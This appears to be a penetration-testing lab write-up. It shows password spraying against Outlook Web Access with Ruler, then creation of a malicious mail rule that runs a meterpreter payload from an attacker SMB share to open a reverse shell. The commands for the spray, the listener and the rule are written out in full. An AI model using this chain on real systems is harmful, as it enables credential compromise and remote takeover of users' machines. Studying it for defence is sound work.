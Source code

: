 # Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker \(with the help of a tool\) cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most commonly used weak passwords. 

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of: `if emailSubject contains` **`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe` 

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Finally, we fire up the ruler and create the malicious email rule:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](../.gitbook/assets/peek-2018-12-23-18-13.gif)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

If you want to delete the malicious email rule, do this:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" %}



